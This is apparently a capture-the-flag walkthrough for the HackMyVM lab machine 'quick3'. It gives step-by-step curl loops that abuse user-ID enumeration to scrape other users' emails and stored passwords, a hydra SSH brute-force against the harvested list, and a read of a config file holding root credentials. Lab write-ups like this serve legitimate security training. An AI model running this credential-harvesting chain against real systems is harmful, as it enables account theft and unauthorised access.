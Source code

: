 ```yaml
---
title: "Quick3 - eMVee"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - quick3
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# quick3 - eMVee
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|quick3|
|Author:|[eMVee](https://hackmyvm.eu/profile/?user=eMVee)|
|Release date:|2024-02-19|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=quick3)|
|Level:|Easy|
|System:|linux|
|You'll learn:|Bash scripting|

# 01. Register new user
```bash
export IP=172.16.1.127
curl -d "name=newuser&email=newmail@newmail.com&password=password&register=Register" http://$IP/customer/index.php
```
```bash
# Registration successful
```
# 02. Login and get a cookie
```bash
curl -v -d 'email=newmail@newmail.com&password=password&login=Login' 'http://172.16.1.127/customer/login.php'
```
```bash
# *   Trying 172.16.1.127:80...
# * Connected to 172.16.1.127 (172.16.1.127) port 80
# > POST /customer/login.php HTTP/1.1
# > Host: 172.16.1.127
# > User-Agent: curl/8.5.0
# > Accept: */*
# > Content-Length: 55
# > Content-Type: application/x-www-form-urlencoded
# > 
# < HTTP/1.1 302 Found
# < Date: Tue, 20 Feb 2024 00:06:22 GMT
# < Server: Apache/2.4.52 (Ubuntu)
# < Set-Cookie: PHPSESSID=hab58kcfs74fgp9vtv78i92de5; path=/
# < Expires: Thu, 19 Nov 1981 08:52:00 GMT
# < Cache-Control: no-store, no-cache, must-revalidate
# < Pragma: no-cache
# < location: dashboard.php
# < Content-Length: 0
# < Content-Type: text/html; charset=UTF-8
# < 
# * Connection #0 to host 172.16.1.127 left intact
```
# 03. Create a list of emails
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="fa-envelope-o"
pattern2=": .*@*<"
pattern3=' :<'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep $pattern1 | grep -o "$pattern2" | tr -d "$pattern3"
done > emails.txt
```
# 04. Create a list of passwords
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="oldpassword\" value="
pattern2="value=\".*\""
pattern3='s/value=//g; s/"//g'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep "$pattern1" | grep -o "$pattern2" | sed "$pattern3"
done > passwords.txt
```
# 05. Create a list of the type user:pass
```bash
paste emails.txt passwords.txt | sed 's/@.*hmv/:/' | tr -d ' \t' > user_pass.txt
cat user_pass.txt | awk -F'[.:]' {'print $1":"$NF'} > user_pass2.txt
```
# 06. Find the password for the SSH user
```bash
hydra -V -C user_pass2.txt ssh://$IP
```
# 07. Find the password for the root user
```bash
bash
cat /var/www/html/customer/config.php
```